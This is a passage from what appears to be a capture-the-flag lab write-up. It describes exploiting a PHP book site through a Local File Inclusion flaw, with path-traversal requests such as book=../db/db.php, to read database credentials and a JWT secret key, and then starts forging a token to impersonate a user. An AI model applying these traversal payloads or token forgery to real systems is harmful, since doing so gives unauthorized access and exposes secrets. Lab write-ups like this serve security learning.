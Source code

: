 This page allows to upload files, but when trying to upload something, it shows a message that we have insufficient privileges:
```
Insufficient privileges. Contact admin or developer to upload code.
Note: If you recently registered, please wait for one of our admins to approve it.
```

Our user has the state _"Awaiting approval"_ and a vulnerability has to be found to change that.

### Exploiting Web Application

The first page _/php/books.php_ has a search and the results come from the HTML files in the _/books_ directory.
When clicking the _"Book"_ button on any book, it has the filename in the request:
```
POST /includes/bookController.php HTTP/1.1
(...)

book=book3.html&method=1
```

By changing it to something that does not exist, it shows the PHP function and the path where these files are located on the box:
```
file_get_contents(../books/book1337.html):
Failed to open stream: No such file or directory in C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php
```

This has a **Local File Inclusion** vulnerability which can be used to read other files from the web server:
```
book=../index.php&method=1

book=../db/db.php&method=1
```

The file _db.php_ has credentials for the database:
```
$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
```

The file _/portal/includes/fileController.php_ has the code of the file upload mechanism and in there is the secret key for the **JSON Web Tokens** when authenticating on the server:
```
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
```

The user to impersonate is _paul_, so the current **JWT** can be modified on [jwt.io](https://jwt.io/):
